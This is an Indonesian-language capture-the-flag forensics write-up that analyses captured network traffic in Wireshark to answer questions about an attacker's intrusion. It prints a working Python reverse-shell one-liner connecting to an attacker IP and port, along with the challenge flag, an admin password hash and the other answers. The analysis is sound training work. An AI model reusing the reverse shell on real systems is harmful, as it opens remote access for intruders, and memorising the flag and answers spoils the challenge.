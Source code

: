 # Analyze the Bad Hacker!

Author: daffainfo

Category: Forensic

Flag: `HCS{f0R3n51k_1tu_m3n4rik}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution

Jawaban:
Pertama konek dulu dengan server untuk menjawab beberapa pertanyaan yang diajukan
```
nc 34.101.202.34 30001
```

![soal1](images/soal1.png)

Diawali dengan soal pertama yang diharuskan mencari nama dan versi server yang digunakan oleh perusahaan

![answer1](images/answer1.png)

Jika dengan menggunakan filter `http` pada wireshark. Maka akan muncul HTTP request beserta responsenya. Kemudian pilih salah satu HTTP response dan muncul header bernama `Server` yang mengandung nama server beserta versinya

```
Maltrail/0.53
```

![soal2](images/soal2.png)

Kemudian, soal kedua diminta untuk memasukkan username beserta hash dimana penyerang login kedalam website kedua kalinya. Hal tersebut bisa dicek dengan filter `http.request.method == POST` untuk memperlihatkan packet mana saja yang mengandung HTTP request dan response pada saat login

![http-stream](images/http-stream.png)

Untuk mengecek isi dari packet yang ada, bisa menekan tombol klik kanan kemudian follow -> HTTP Stream

![answer2](images/answer2.png)

Pada packet ke 2063 adalah dimana penyerang login kedalam website kedua kalinya dan jawabannya adalah

```
admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73
```

![soal3](images/soal3.png)

Untuk pertanyaan ketiga, ini bisa didapat jika melihat beberapa packet yang ada

![request-mencurigakan](images/request-mencurigakan.png)

Ada HTTP request yang cukup mencurigakan seperti gambar diatas karena terdapat fungsi `base64` dan `sh`. Jika dilihat kembali, terdapat fungsi seperti melakukan decode base64.

![answer3](images/answer3.png)

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Jika didecode, ternyata mengandung IP dan juga port penyerang

```
159.223.33.240:9999
```

![soal4](images/soal4.png)

Untuk soal terakhir, kita diharuskan untuk mencari file yang dimasukkan oleh penyerang didalam server

![answer4](images/answer4.png)

Hal itu bisa didapatkan di beberapa packet setelah HTTP request yang mencurigakan sebelumnya, terlihat penyerang membuat file baru bernama `/tmp/.hmm.sh` yang berisikan command untuk melakukan reverse shell

```
/tmp/.hmm.sh
```

![flag](images/flag.png)